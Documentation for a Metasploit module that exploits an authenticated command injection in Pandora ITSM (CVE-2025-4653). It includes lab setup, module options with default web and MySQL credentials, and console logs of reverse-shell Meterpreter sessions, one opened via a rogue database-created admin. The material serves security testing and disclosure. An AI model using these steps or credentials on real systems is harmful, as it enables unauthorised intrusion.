 ## Vulnerable Application
Pandora ITSM is a platform for Service Management & Support including a Helpdesk for support
and customer service teams, aligned with ITIL processes.
This module exploits an command injection vulnerability in the `name` backup setting at the
application setup page of Pandora ITSM. This can be triggered by generating a backup with a
malcious payload injected at the `name` parameter.
You need have admin access at the Pandora ITSM  Web application in order to execute this RCE.
This access can be achieved by knowing the admin credentials to access the web application or
leveraging a default password vulnerability in Pandora ITSM that allows an attacker to access
the Pandora FMS ITSM database, create a new admin user and gain administrative access to the
Pandora ITSM Web application. This attack can be remotely executed over the WAN as long as the
MySQL services are exposed to the outside world.
This issue affects all ITSM Enterprise editions up to `5.0.105` and is patched at `5.0.106`.

The following releases were tested.

**Pandora ITSM Releases:**
* Pandora ITSM Enterprise Edition 5.0.104 Build 240802 MR97 on Ubuntu 22.04
* Pandora ITSM Enterprise Edition 5.0.105 Build 250129 MR98 on Ubuntu 22.04

## Installation steps to install Pandora ITSM Enterprise Edition on Ubuntu 22.04
* Install your favorite virtualization engine (VMware or VirtualBox) on your preferred platform.
* Here are the installation instructions for [VirtualBox on MacOS](https://tecadmin.net/how-to-install-virtualbox-on-macos/).
* Register for a free trial [here](https://pandorafms.com/en/itsm/free-trial/).
* Install a plain Ubuntu 22.04 VM image.
* Log in at the Ubuntu VM with root.
* Run `apt update && apt upgrade` to get the latest updates.
* Run the following command `curl -SsL https://pfms.me/deploy-pandora-itsm > deploy-pandora-itsm`.
* Check the file `deploy-pandora-itsm` and find the `install_script` variable that refers to `itsm_deploy_enterprise_ubuntu_2204.sh`.
* `install_script='https://packages.pandorafms.com/projects/deploy/itsm/iBxbqHhtHkOnzp1rINvG/itsm_deploy_enterprise_ubuntu_2204.sh'`
* Use the `url` and download the file with `curl` and store it locally in the file `install.sh`.
* `curl -LSs https://packages.pandorafms.com/projects/deploy/itsm/iBxbqHhtHkOnzp1rINvG/itsm_deploy_enterprise_ubuntu_2204.sh > install.sh`
* Edit `install.sh` with your favorite editor and change the following line FROM:
* INTEGRIA_PACKAGE_ENT="https://packages.pandorafms.com/c5553382c7268ea9d69dd2f889029162/latest/PandoraITSM_enterprise-latest.tar.gz"
* TO
* INTEGRIA_PACKAGE_ENT="https://packages.pandorafms.com/c5553382c7268ea9d69dd2f889029162/LTS/PandoraITSM_enterprise-lts.tar.gz"
* Run `chmod +x install.sh` and execute the script `./install.sh`.
* After successful installation of Pandora ITSM you can access the application using the `webui` via `http://your_ip/pandoraitsm`.

You are now ready to test the module.

## Verification Steps
- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/pandora_itsm_auth_rce_cve_2025_4653`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ] `set lhost <attacker-ip>`
- [ ] `set target <0=Unix/Linux Command>`
- [ ] `exploit`
- [ ] you should get a `reverse shell` or `Meterpreter` session depending on the `payload` and `target` settings

## Options

### USERNAME
This option is optional and is the username (default: admin) to authenticate with the Pandora ITSM application.

### PASSWORD
This option is optional and is the password (default: integria) in plain text to authenticate with the Pandora ITSM application.

### DB_USER
This option is required and is the username (default: pandoraitsm) to authenticate with the Pandora ITSM MySQL database.

### DB_PASSWORD
This option is required and is the password (default: P4ndor4.itsm) in plain text to authenticate with the Pandora ITSM MySQL database.

### DB_PORT
This option is required and is the MySQL database port (default: 3306) to connect to the database.

## Scenarios
### Pandora ITSM 5.0.104 on Ubuntu 22.04 -  Unix/Linux Command target
Attack scenario: use the default admin credentials (admin:integria) of the Pandora ITSM application
to gain the privileges for the RCE.
```msf
msf6 exploit(linux/http/pandora_itsm_auth_rce_cve_2025_4653) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Pandora ITSM Enterprise Edition 5.0.104 Build 240802 MR97
[*] Trying to log in with admin credentials admin:integria at the Pandora ITSM Web application.
[*] Succesfully authenticated at the Pandora ITSM Web application.
[*] Saving admin credentials at the msf database.
[*] Executing Unix/Linux Command for cmd/linux/http/x64/meterpreter/reverse_tcp
[*] Sending stage (3090404 bytes) to 192.168.201.6
[*] Meterpreter session 45 opened (192.168.201.10:4444 -> 192.168.201.6:37374) at 2025-07-19 10:21:00 +0000

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer     : 192.168.201.6
OS           : Ubuntu 22.04 (Linux 5.15.0-144-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > pwd
/var/www/html/pandoraitsm
meterpreter >
```
### Pandora ITSM 5.0.104 on Ubuntu 22.04 -  Unix/Linux Command target
Attack scenario: use the default database credentials (pandoraitsm:P4ndor4.itsm) to create an admin user in the application
to gain the privileges for the RCE.
```msf
msf6 exploit(linux/http/pandora_itsm_auth_rce_cve_2025_4653) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Pandora ITSM Enterprise Edition 5.0.104 Build 240802 MR97
[*] Trying to log in with admin credentials admin:xxx at the Pandora ITSM Web application.
[*] Logging in with admin credentials failed. Trying to connect to the Pandora MySQL server.
[*] Creating new admin user with credentials hhmxr:YGMWzFjE9R for access at the Pandora ITSM Web application.
[*] Trying to log in with new admin credentials hhmxr:YGMWzFjE9R at the Pandora ITSM Web application.
[*] Succesfully authenticated at the Pandora ITSM Web application.
[*] Saving admin credentials at the msf database.
[*] Executing Unix/Linux Command for cmd/linux/http/x64/meterpreter/reverse_tcp
[*] Sending stage (3090404 bytes) to 192.168.201.6
[*] Meterpreter session 46 opened (192.168.201.10:4444 -> 192.168.201.6:38870) at 2025-07-19 10:22:43 +0000

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer     : 192.168.201.6
OS           : Ubuntu 22.04 (Linux 5.15.0-144-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > pwd
/var/www/html/pandoraitsm
meterpreter >
```

## Limitations
None.
